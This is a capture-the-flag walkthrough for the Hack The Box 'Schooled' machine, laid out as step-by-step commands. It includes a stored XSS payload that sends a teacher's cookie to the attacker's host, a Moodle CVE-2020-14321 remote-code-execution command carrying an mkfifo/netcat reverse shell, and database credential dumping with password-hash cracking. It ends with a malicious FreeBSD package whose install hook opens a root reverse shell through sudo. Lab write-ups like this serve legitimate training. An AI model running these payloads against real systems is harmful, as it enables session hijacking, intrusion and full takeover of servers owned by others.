 1. Connect the box, get IP.  
2. Run nmap:
    ```bash
    nmap -Pn -A 10.10.10.234
    ```  

    ![](./images/schooled1.png)  

3. In the bottom of site, we see 'schooled.htb', add that to /etc/hosts.  

    ![](./images/schooled2.png)  

4. Run gobuster vhost for subdomain search:
    ```bash
    gobuster vhost -u schooled.htb -w /root/tools/dnscan/subdomains-500.txt -z -t 100 
    ```  

    ![](./images/schooled3.png)  

    Found moodle.schooled.htb, add that to /etc/hosts.  
5. Open moodle.schooled.htb.  
6. Create account, login, join Mathematics course, check Announcements.  

    ![](./images/schooled4.png)  

7. Go to Edit profile, see the MoodleNet field.  
    Type in 
    ```html
    "><h1>test</h1>
    ```  
    and Update profile, you see this:  

    ![](./images/schooled5.png)  

    Hence, the site has XSS (Cross-Site Scripting)  
8. Run python server on your machine:
    ```bash
    python3 -m http.server 4443
    ```
9. Type this in MoodleNet area:  
    ```html
    <script>new Image().src="http://10.10.14.7:4443?c="+document.cookie;</script>
    ```
    Wait for a while.  
10. Teacher's cookie comes in the python server. Replace that and you are the teacher now.  

    ![](./images/schooled6.png)  

    ![](./images/schooled7.png)  

11. Use this CVE: [CVE-2020-14321](https://github.com/lanzt/CVE-2020-14321).  
    Run nc server:
    ```bash
    nc -lnvp 1234
    ```
    Run this command:  
    ```bash
    python3 CVE-2020-14321_RCE.py http://moodle.schooled.htb/moodle/ --cookie b2vg6doaecljo3tdro0apnbht2 --cdomain moodle.schooled.htb --cpath '/moodle/' -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.7 1234 >/tmp/f'
    ```
    We get reverse shell:  

    ![](./images/schooled8.png)  

12. Use nc to transfer FreeBSD socat and stabilize shell.  
13. The username and password of mysql are in '/usr/local/www/apache24/data/moodle/config.php'.
    ```User: moodle, DBname: moodle, Password: PlaybookMaster2020```
14. Login to mysql,
    ```bash
    mysql -u moodle -p moodle
    ```
    Enter the password as found above.  

    ![](./images/schooled9.png)  

15. Run:
    ```mysql
    show tables;
    ```
    to show tables, there is a table named "mdl_user".  
16. Run:
    ```mysql
    describe mdl_user;
    ```
    to show all columns in that table, there is a column named "username" and "password".
17. Run:
    ```mysql
    select email, username, password from mdl_user;
    ```
18. We get the admin's (jamie's) password hash, crack it using john.
    ```
    hash: $2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW
    cracked: !QAZ2wsx
    ```
19. Login to jamie's ssh using the password, get 'user.txt'.
20. run sudo -l, get this:  

    ![](./images/schooled10.png)  
    
21. We need to create a custom package for FreeBSD. Refer to [this site](http://lastsummer.de/creating-custom-packages-on-freebsd/).  
22. Run this script as jamie:
    ```bash
    #!/bin/sh

    STAGEDIR=/tmp/package

    rm -rf ${STAGEDIR}
    mkdir -p ${STAGEDIR}

    cat >> ${STAGEDIR}/+PRE_INSTALL <<EOF
    # careful here, this may clobber your system
    echo “Resetting root shell”
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.7 1234 >/tmp/f
    EOF

    cat >> ${STAGEDIR}/+POST_INSTALL <<EOF
    # careful here, this may clobber your system
    echo “Registering root shell”
    pw usermod -n root -s /bin/sh
    EOF

    cat >> ${STAGEDIR}/+MANIFEST <<EOF
    name: mypackage
    version: “1.0_5”
    origin: sysutils/mypackage
    comment: “automates stuff”
    desc: “automates tasks which can also be undone later”
    maintainer: john@doe.it
    www: https://doe.it
    prefix: /
    EOF

    pkg create -m ${STAGEDIR}/ -r ${STAGEDIR}/ -o .
    ```
23. Set up a nc listener:
    ```bash
    nc -lnvp 1234
    ```
24. A .txz file will be created in the current directory. Run the following command to install the package:
    ```bash
    sudo pkg install --no-repo-update *.txz
    ```
25. And we have got our root shell. Get 'root.txt' from here.